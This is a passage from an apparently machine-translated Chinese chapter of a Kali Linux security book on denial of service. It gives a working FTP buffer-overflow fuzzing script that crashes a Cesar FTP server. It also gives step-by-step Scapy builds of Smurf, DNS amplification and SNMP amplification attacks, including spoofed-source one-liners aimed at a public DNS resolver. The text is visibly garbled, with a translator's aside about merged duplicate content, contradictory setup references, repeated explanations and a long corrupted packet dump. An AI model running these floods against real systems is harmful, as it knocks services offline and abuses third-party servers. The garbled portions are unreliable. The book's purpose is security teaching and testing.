如果在没有提供相应数量系统参数的情况下执行脚本，脚本将返回预期的用法。有几个值必须作为系统参数包含。传递给脚本的第一个参数是目标 IP 地址。该地址与运行你想要模糊的 FTP 服务的系统关联。下一个参数是 FTP 服务运行的端口号。在大多数情况下，FTP 将在 TCP 端口 `21` 上运行。`payload` 将定义要批量传递服务的字符或字符序列。`interval` 参数定义了在第一次迭代中传递给 FTP 服务的定义的有效负载实例数量。该参数也将是每次后续迭代中有效负载实例数量增加的增量，直到达到最大值。该最大值由最后一个参数的值定义。在带有这些系统参数执行脚本后，它将请求 FTP 服务的身份凭据，并询问应该模糊哪个认证后函数。在提供的示例中，模糊测试是对运行在 IP 地址 `172.16.36.134` 的 Windows XP 主机 TCP 端口 `21` 上的 FTP 服务进行的。使用任意电子邮件地址向 FTP 服务传递了匿名登录凭据。此外，将一系列 `As` 传递给 `MKD` 认证后函数，从 100 个实例开始，每次增加 100 个，直到达到 1000 个的最大值。该脚本也可以用于在有效负载中传递一系列字符：

```bash
root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 ABCD 100 500
Enter ftp username: anonymous
Enter ftp password: user@mail.com
Enter FTP command to fuzz: MKD
Sending 100 instances of payload (ABCD) to target
Sending 200 instances of payload (ABCD) to target
Sending 300 instances of payload (ABCD) to target
Sending 400 instances of payload (ABCD) to target
Sending 500 instances of payload (ABCD) to target
There is no indication that the server has crashed
```

在提供的示例中，`payload` 被定义为 `ABCD`，该有效负载的实例被定义为 100 的倍数，直到值为 500。

### 工作原理……

通常来说，缓冲区溢出会导致拒绝服务，因为它们可能导致任意数据加载到内存的非预期段中。这将中断执行流并导致服务或操作系统的崩溃。本教程中讨论的特定脚本之所以有效，是因为如果服务或操作系统发生崩溃，`socket` 将不再接受输入，脚本将无法完成整个有效负载注入序列。如果发生这种情况，则需要使用 `Ctrl` + `C` 强制关闭脚本。在这种情况下，脚本将返回指示，说明无法发送后续的有效负载且服务器可能已经崩溃。

### 远程 FTP 服务缓冲区溢出 DoS

在特定情况下，输入数据可能会逃离其指定的缓冲区并流向相邻的寄存器或内存段。此过程将中断执行流并导致应用程序或系统崩溃。在某些情况下，缓冲区溢出漏洞还可以被用于执行未经授权的代码。


```python
command = raw_input(str("Enter FTP command to fuzz: "))

while i <= max:
    try:
        payload = command + " " + ('\n' * i)
        print "Sending " + str(i) + " line break characters to target"
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect((target,port))
        s.recv(1024)
        s.send('USER ' + user + '\r\n')
        s.recv(1024)
        # Denial of Service
        s.send('PASS ' + passwd + '\r\n')
        s.recv(1024)
        s.send(payload + '\r\n')
        s.send('QUIT\r\n')
        s.recv(1024)
        s.close()
        i = i + interval
    except:
        print "\nUnable to send...Server may have crashed"
        sys.exit()
    print "\nThere is no indication that the server has crashed"
```

对脚本进行的修改包括修改用法说明，并将负载作为提供的参数移除，然后在脚本中硬编码一个换行符负载以按顺序发送。

`root@KaliLinux:~# ./ftp_fuzz.py`

`Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Interval] [Maximum]`

`Example - ./ftp_fuzz.py 10.0.0.5 21 100 1000`

示例将使用一系列换行符对定义的 FTP 服务进行模糊测试，包括 100 个 `\n`、200 个 `\n` 等……直到最大值 1000 个。

`root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 100 1000`
`Enter ftp username: anonymous`
`Enter ftp password: user@mail.com`
`Enter FTP command to fuzz: MKD`
`Sending 100 line break characters to target`
`Sending 200 line break characters to target`
`Sending 300 line break characters to target`
`Sending 400 line break characters to target`
`Sending 500 line break characters to target`
`Sending 600 line break characters to target`
`Sending 700 line break characters to target`
`^C`
`Unable to send...Server may have crashed`


## 第 6 章

如果执行脚本时没有提供相应的系统参数，脚本将返回预期的用法说明。我们可以执行脚本并发送一系列 100 的倍数的负载，最多到 1000 个。在发送了 700 个换行符的负载后，脚本停止发送负载并处于空闲状态。在一段未活动后，强制使用 `Ctrl` + `C` 关闭关闭脚本。脚本表明它无法发送字符，且远程服务器可能已经崩溃。请查看下面的截图：

回到运行 Cesar 0.99 FTP 服务的 Windows XP 机器，我们可以看到 `server.exe` 应用程序已崩溃。为了在拒绝服务后恢复操作，必须手动重启 Cesar FTP 服务。

### 工作原理……

通常情况下，缓冲区溢出会导致拒绝服务，因为它们会导致任意数据被加载到内存的非预期段中。这可能会破坏执行流并导致服务或操作系统的崩溃。本教程中讨论的特定脚本之所以有效，是因为在服务或操作系统发生崩溃的情况下，`socket` 将不再接受输入，脚本将无法完成整个负载序列注入序列。如果发生这种情况，则需要使用 `Ctrl` + `C` 强制关闭脚本。在这种情况下，脚本将返回一个指示，表明无法发送后续负载且服务器可能崩溃。

### Smurf DoS 攻击

Smurf 攻击在历史上是执行分布式拒绝服务（DDoS）放大攻击的最老技术之一。这种攻击由向网络广播地址发送系列带有伪造源 IP 地址的 ICMP 回显请求组成。当此请求被广播时，局域网上的所有主机都应该对收到的每个伪造请求同时向目标响应。这种技术对现代系统的效果较差，因为大多数系统不对 IP 指向广播流量做出响应。

### 拒绝服务

### 准备工作

要执行 Smurf 攻击，你需要一个运行有多个系统的局域网（LAN）。在提供的示例中，使用了安装了 Ubuntu 作为扫描目标。有关设置 Ubuntu 的更多信息，请参阅本书《第 1 章》中《入门》部分的*安装 Ubuntu Server*教程。

### 如何操作……

要尝试执行传统的 Smurf 攻击，可以使用 `Scapy` 从头构建所需的数据包。要在 Kali Linux 命令行中使用 `Scapy`，请在终端中使用 `scapy` 命令；如下所示。要向广播地址发送 ICMP 请求，我们必须首先构建该请求的各个层。我们需要构造的第一层是 IP 层：

`root@KaliLinux:~# scapy`
`Welcome to Scapy (2.2.0)`
`>>> i = IP()`
`>>> i.display()`
```
### IP ###
version: 4
ihl: None
###
tos: 0
ttl: 64
proto: 6
len: None
```
（注：提供的文本包含大量重复部分/合并内容。我将根据指令遵循文本逻辑流进行处理。）

构建 IP 层：
`root@KaliLinux:~# scapy`
`Welcome to Scapy (2.2.0)`
`>>> i = IP()`
`>>> i.display()`
```
### IP ###
version: 4
ihl: None
###
tos: 0
ttl: 64
proto: 6
len: None
```
（此处省略原文中重复的 Scapy 示例块）


.........................................................................

...........................

**已发送 100 个数据包。**

308

*第 6 章*

在提供的示例中，使用了 `Scapy` 中的单行命令来执行我们之前讨论过的相同操作，这次源 IP 地址被伪装为局域网（LAN）上另一个系统的地址。此外，计数值可用于顺序发送多个请求。

### 工作原理……

放大攻击通过利用第三方设备（或多个）通过网络流量淹没目标来实现。对于大多数放大攻击，满足以下两个条件：

- 用于执行攻击的协议不验证请求源
- 所用网络函数的响应应远大于用于请求该响应的请求

传统的 `smurf` 攻击的有效性取决于局域网上的主机对 IP 指向广播流量的响应。此类主机将收到来自目标系统伪造 IP 地址的广播 `ICMP` 回显请求，并对收到的每个请求同时返回 `ICMP` 回显应。

### DNS 放大 DoS 攻击

DNS（域名系统）`DNS` 放大攻击通过对给定域名的所有记录类型进行伪造查询来利用开放的 DNS 解析器。通过采用 `DDoS` 组件同时向多个开放解析器发送请求，可以增加这种攻击的有效性。

### 准备工作

为了模拟 `DNS` 放大攻击，你需要一个本地名称服务器，或者知道开放且可访问的名称服务器的 IP 地址。在提供的示例中，使用了安装了 `Ubuntu` 的扫描目标。关于设置 `Ubuntu` 的更多信息，请参阅第 1 章*入门指南*中的*安装 Windows Server*配方。

### 如何操作……

为了理解 `DNS` 放大的工作原理，可以使用 `host`、`dig` 或 `nslookup` 等基础 `DNS` 查询工具。通过对一个已建立域名的所有记录类型发起请求，你会发现某些请求返回了相当庞大的响应：

```
root@KaliLinux:~# dig ANY google.com @208.67.220.220
; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> ANY google.com @208.67.220.220
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41539
;; flags: qr rd ra; QUERY: 1, ANSWER: 17, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION:
;google.com. IN ANY
;; ANSWER SECTION:
google.com. 181 IN A 74.125.232.101
google.com. 181 IN A 74.125.232.97
google.com. 181 IN A 74.125.232.102
google.com. 181 IN A 74.125.232.99
google.com. 181 IN A 74.125.232.104
google.com. 181 IN A 74.125.232.96
google.com. 181 IN A 74.125.232.100
google.com. 181 IN A 74.125.232.103
google.com. 181 IN A 74.125.232.105
google.com. 181 IN A 74.125.232.98
google.com. 181 IN A 74.125.232.110
google.com. 174 IN AAAA 2607:f8b0:4004:803::1007
google.com. 167024 NS ns2.google.com
google.com. 167024 NS ns1.google.com
google.com. 167024 NS ns3.google.com
google.com. 167024 NS ns4.google.com
google.com. 60 IN SOA ns1.google.com. dns-admin.google.com. 1545677 7200 1800 129600 300
;; Query time: 7 msec
;; SERVER: 208.67.220.220#53(208.67.220.220)
;; WHEN: Thu Dec 19 02:40:13
;; MSG SIZE rcvd: 350
```

在提供的示例中，针对 `google.com` 域名所有记录类型的请求返回的响应包含了 11 条 `A` 记录、1 条 `AAAA` 记录、4 条 `NS` 记录和 1 条 `SOA` 记录。（此处省略后续重复的段落翻译）


要构建 DNS 查询记录，我们将使用与之前处理 IP、UDP 和 DNS 层时相同的技术。在提供的示例中，DNS 查询记录被赋值给变量 `q`。正如之前所讨论的，可以通过调用 `display()` 函数来识别默认配置。在这里，我们可以看到有几个值需要修改：

`>>> q.qname = 'google.com'`

`>>> q.qtype=255`

`>>> q.display()`

### DNS 查询记录

`qname= 'google.com'`

`qtype= ALL`

`qclass= IN`

`qname` 的值需要被设置为正在查询的域名。此外，需要通过传递整数值 `255` 将 `qtype` 设置为 `ALL`。通过再次调用 `display()` 函数，我们可以验证配置调整已经完成。现在查询记录已经配置完毕，应当将查询记录对象赋值给 DNS 的 `qd` 值：

`>>> d.qd = q`

`>>> d.display()`

### DNS

`id= 0`

`qr= 0`

`opcode= QUERY`

`aa= 0`

`tc= 0`

`rd= 1`

`ra= 0`

`z= 0`

`rcode= ok`

`qdcount= 1`

`ancount= 0`

`nscount= 0`

`arcount= 0`

`qd`

| DNS 查询记录 |
| qname= 'google.com' |
| qtype= ALL |
| qclass= IN |
`an= None`

`ns= None`

`ar= None`

我们可以通过调用 `display()` 函数来验证查询记录已经赋值给 DNS 的 `qd` 值。现在 IP、UDP 和 DNS 层已经构建完成，并且适当查询记录已分配给 DNS 层，我们可以通过堆叠这些层来构建请求：

`>>> request = (i/u/d)`

`>>> request.display()`

### IP

`version= 4`

`ihl= None`

`tos= 0x0`

`len= None`

`id= 1`

`flags=`

`frag= 0`

`ttl= 64`

`proto= udp`

`chksum= None`

`src= 172.16.36.180`

`dst= 208.67.220.220`

`options`

### UDP

`sport= domain`

`dport= domain`

`len= None`

`chksum= None`

### DNS

`id= 0`

`qr= 0`

`opcode= QUERY`

`aa= 0`

`tc= 0`

`rd= 1`

`ra= 0`

`z= 0`

`rcode= ok`

`qdcount= 1`

`ancount= 0`

`nscount= 0`

`arcount= 0`

`qd`

| DNS 查询记录 |
| qname= 'google.com' |
| qtype= ALL |
| qclass= IN |
`an= None`

`ns= None`

`ar= None`

可以通过用正斜杠分隔变量来堆叠 IP、UDP 和 DNS 层。然后可以将这些层赋值给一个新变量，该变量将代表整个请求。随后可以调用 `display()` 函数来查看请求的配置。在发送此请求之前，我们应该以与响应相同的显示格式查看它。通过这种方式，我们可以直直地理解请求和响应之间发生的放大效应。这可以通过直接调用变量来实现：

`>>> request`

`<IP frag=0 proto=udp dst=208.67.220.220 |<UDP sport=domain |<DNS rd=1 qcount=1 qd=<DNSQR qname='google.com' qtype=ALL |> |>>>`

一旦构建了请求，就可以将其传递给 `send` 和 `receive` 函数，以便我们分析响应。我们不会将其赋值给变量，而是直接调用函数，以便以相同的格式查看响应：

`>>> sr1(request)`

```
Begin emission:
....................Finished to send 1 packets.
.............................***
Received 50 packets, got 1 answers, remaining 0 packets
<IP version=4L ihl=5L tos=0x0 len=378 id=29706 flags= frag=0L ttl=128 proto=udp chksum=0x4750 src=208.67.220.220 dst=172.16.36.232 options=[]
|<UDP sport=domain dport=domain len=358 chksum=0xf360 |<DNS id=0 qr=0 opcode=QUERY aa=0 tc=0 rd=1 ra=0 z=0 rcode=ok qdcount=1 ancount=0 nscount=0 arcount=0 qd=<DNSQR qname='google.com' qtype=ALL |>>>
```


`com. A yyz08s13-in-f14.1e100.net, google.com. A yyz08s13-in-f6.1e100.`
`net, google.com. A yyz08s13-in-f2.1e100.net, google.com. A yyz08s13-`
`in-f0.1e100.net, google.com. A yyz08s13-in-f3.1e100.net, google.com. A`
`yyz08s13-in-f1.1e100.net, google.com. A yyz08s13-in-f9.1e100.net, google.`
`com. A yyz08s13-in-f7.1e100.net, google.com. A yyz08s13-in-f8.1e100.net,`
`google.com. NS ns2.google.com., google.com. NS ns1.google.com., google.`
`com. NS ns3.google.com., google.com. NS ns4.google.com., google.com. SOA`
`ns1.google.com. dns-admin.google.com. 1545677 7200 1800 1209600 300 (322)`
`19:07:15.448636 IP (tos 0x0, ttl 128, id 11359, offset 0, flags [none],`
`proto UDP (17), length 350) resolver2.opendns.com.domain > 172.16.36.135.`
`domain: [udp sum ok] 0 q: ANY? google.com. 16/0/0 google.com. A yyz08s13-`
`in-f14.1e100.net, google.com. A yyz08s13-in-f6.1e100.net, google.com. A`
`yyz08s13-in-f2.1e100.net, google.com. A yyz08s13-in-f0.1e100.net, google.`
`com. A yyz08s13-in-f3.1e100.net, google.com. A yyz08s13-in-f1.1e100.`
`net, google.com. A yyz08s13-in-f9.1e100.net, google.com. A yyz08s13-`
`in-f7.1e100.net, google.com. A yyz08s13-in-f8.1e100.net, google.com. A`
`yyz08s13-in-f4.1e100.net, google.com. A yyz08s13-in-f5.1e100.net, google.`
`com. NS ns2.google.com., google.com. NS ns1.google.com., google.com. NS`
`ns3.google.com., google.com. NS ns4.google.com., google.com. SOA ns1.`
`google.com. dns-admin.google.com. 1545677 7200 1800 1209600 300 (322)`

执行整个 DNS 放大攻击的过程实际上可以通过 Scapy 中的一条单行命令来完成。该命令使用了我们在上一个练习中讨论过的相同值。随后可以修改 `count` 值来定义想要发送到受害者服务器的负载响应数量：

```python
>>> send(IP(dst="208.67.220.220",src="172.16.36.135")/UDP()/DNS(rd=1,qdcount=1,qd=DNSQR(qname="google.com",qtype=255)),verbose=1,count=2)
```
```
..
Sent 2 packets.
```

319

### 拒绝服务 (Denial of Service)

### 工作原理……
放大攻击通过利用第三方设备产生网络流量来淹没目标。对于大多数放大攻击，满足以下两个条件：

- 用于执行攻击的协议不验证请求源。
- 网络返回的响应应比请求大得多。

DNS 放大攻击的效能与 DNS 查询响应的大小直接相关。通过向多个 DNS 服务器发送请求，可以增加攻击威力。

##### SNMP 放大攻击
SNMP 放大攻击通过伪造具有可预测社区字符串（community strings）的查询来利用 SNMP 设备。通过向多个设备同时发送请求可以增加流量。

### 准备工作
要模拟 SNMP 放大攻击，你需要一个启用了 SNMP 的设备。在示例中，使用了 Windows 设备来实现此目的。关于设置 Ubuntu 的更多信息，请参考书中的第 1 章 *安装 Ubuntu Server*。

### 如何操作……
要开始操作，我们首先应该构造返回到系统的 SNMP 查询来评估负载大小。首先需要构造的层是 IP 层：

```python
>>> i = IP()
>>> i.display()
```
```
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags= 
ttl= 64
proto= ip
chksum= None
```

为了构建请求的 IP 层，我们需要将 IP 对象赋值给变量 `i`。通过调用 `display()` 函数，我们可以识别对象的属性配置。默认情况下，发送和接收地址都设置为回环地址 `127.0.0.1`。

这些值可以通过更改目标地址为 `172.16.36.134` 来修改。

现在 IP 层已经构建，我们需要构建 UDP 层：

```python
>>> u = UDP()
>>> u.display()
```
```
###[ UDP ]###
sport= domain
dport= domain
len= None
chksum= None
```

为了构建请求的 IP 层，我们需要将 IP 对象赋值给变量 `i`。通过调用 `display()` 函数，我们可以识别对象的属性配置。默认情况下，发送和接收地址都设置为回环地址 `127.0.0.1`。

现在 IP 层已经构建完成，我们需要构建 SNMP 层：

```python
>>> snmp = SNMP()
>>> snmp.display()
```
```
###[ SNMP ]###
version= 2c
community= 'public'
\PDU\
###[ SNMPget ]###
id= 0
error= no_error
error_index= 0
\varbindlist\
```

使用 bulk 请求来替换默认分配给 PDU 的 SNMPget 请求：

```python
>>> bulk = SNMPbulk()
>>> bulk.display()
```
```
###[ SNMPbulk ]###
id= 0
non_repeaters= 0
max_repetitions= 0
\varbindlist\
```

```python
>>> bulk.max_repetitions = 50
>>> bulk.varbindlist=[SNMPvarbind(oid=ASN1_OID['.1.3.6.1.2.1.1']),SNMPvarbind(oid=ASN1_OID['.1.3.6.1.2.1.19.1.3'])]
>>> bulk.display()
```


| `value=` `<ASN1_NULL[0]>` |

### [ SNMPvarbind ]

| `oid=` `<ASN1_OID['.1.3.6.1.2.1.19.1.3']>` |
| `value=` `<ASN1_NULL[0]>` |

323

拒绝服务

需要修改 `SNMP varbindlist` 以包含所查询的 OID 值。

此外，`max_repetitions` 被分配了整数值 `50`。现在批量请求（bulk request）已经配置完成，应该将批量请求对象赋值为 SNMP PDU 值：

```
>>> snmp.PDU = bulk
>>> snmp.display()
```

### [ SNMP ]

`version= v2c`
`community= 'public'`

`PDU`

### [ SNMPbulk ]

| `id=` `0` |
| `non_repeaters=` `0` |
| `max_repetitions=` `50` |
| `varbindlist` |
| | [ SNMPvarbind ] |
| | `oid=` `<ASN1_OID['.1.3.6.1.2.1.1']>` |
| | `value=` `<ASN1_NULL[0]>` |
| | [ SNMPvarbind ] |
| | `oid=` `<ASN1_OID['.1.3.6.1.2.1.19.1.3']>` |
| | `value=` `<ASN1_NULL[0]>` |

我们可以通过调用 `display()` 函数来验证批量请求已赋值给 SNMP PDU 值。现在 IP、UDP 和 SNMP 层已经构建完成，且批量请求已经配置并分配给 SNMP 层，我们可以通过堆叠这些层来构建请求：

```
>>> request = (i/u/snmp)
>>> request.display()
```

### [ IP ]

`version= 4`
`ihl= None`
`tos= 0x0`
`len= None`
`id= 1`
`flags=`
`frag= 0`
`ttl= 64`

324

第 6 章

`proto= udp`
`chksum= None`
`src= 172.16.36.224`
`dst= 172.16.36.134`

`options`

### [ UDP ]

`sport= snmp`
`dport= snmp`
`len= None`
`chksum= None`

### [ SNMP ]

`version= v2c`
`community= 'public'`

`PDU`

### [ SNMPbulk ]

| `id=` `0` |
| `non_repeaters=` `0` |
| `max_repetitions=` `50` |
| `varbindlist` |
| | [ SNMPvarbind ] |
| | `oid=` `<ASN1_OID['.1.3.6.1.2.1.1']>` |
| | `value=` `<ASN1_NULL[0]>` |
| | [ SNMPvarbind ] |
| | `oid=` `<ASN1_OID['.1.3.6.1.2.1.19.1.3']>` |
| | `value=` `<ASN1_NULL[0]>` |

通过正斜杠分隔变量，可以对 IP、UDP 和 SNMP 层进行堆叠。然后可以将这些层赋值给一个代表整个请求的新变量。随后可以调用 `display()` 函数来查看请求的配置。请求构建完成后，就可以将其传递给 `send` 和 `receive` 函数，以便我们分析响应：

```
>>> ans = sr1(request,verbose=1,timeout=5)
Begin emission:
Finished to send 1 packets.
Received 1 packets, got 1 answers, remaining 0 packets
>>> ans.display()
```

325

拒绝服务

### [ IP ]

`version= 4L`
`ihl= 5L`
`tos= 0x0`
`len= 1500`
`id= 27527`
`flags= MF`
`frag= 0L`
`ttl= 128`
`proto= udp`
`chksum= 0x803`
`src= 172.16.36.134`
`dst= 172.16.36.224`

`options`

### [ UDP ]

`sport= snmp`
`dport= snmp`
`len= 2161`
`chksum= 0xdcbf`

### [ Raw ]

```
load= '0\x82\x08e\x02\x01\x01\x04\x06public\xa2\x82\x08V\x02\**
x01\x00\x02\x01\x00\x02\x01\x000\x82\x08I0\x81\x8b\x06\x08+\x06\x01\x02\**
x01\x01\x01\x00\x04\x7fHardware: x86 Family 6 Model 58 Stepping 9 AT/AT
COMPATIBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor
Free)0\x10\x06\t+\x06\x01\x02\x01\x19\x01\x01\x00C\x03p\xff?0\x18\x06\**
x08+\x06\x01\x02\x01\x01\x02\x00\x06\x0c+\x06\x01\x04\x01\x827\x01\x01\**
x03\x01\x010\x15\x06\t+\x06\x01\x02\x01\x19\x01\x02\x00\x04\x08\x07\xde\**
x02\x19\x08\r\x1d\x030\x0f\x06\x08\x01\x01\xx01\x01\x03\x00C\x03o
\x0e\x8a0\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x03\x00\x02\x01\x00\x0c
\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01\**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72EF41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x080x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0f0O-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t0x06\x01
**\x02\x01\x09\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t0x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x02
**\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x00\x0e\x06\t+\x06\x01
**\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00
**\x02\x01L\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x00\x02\x01\x00\x0c
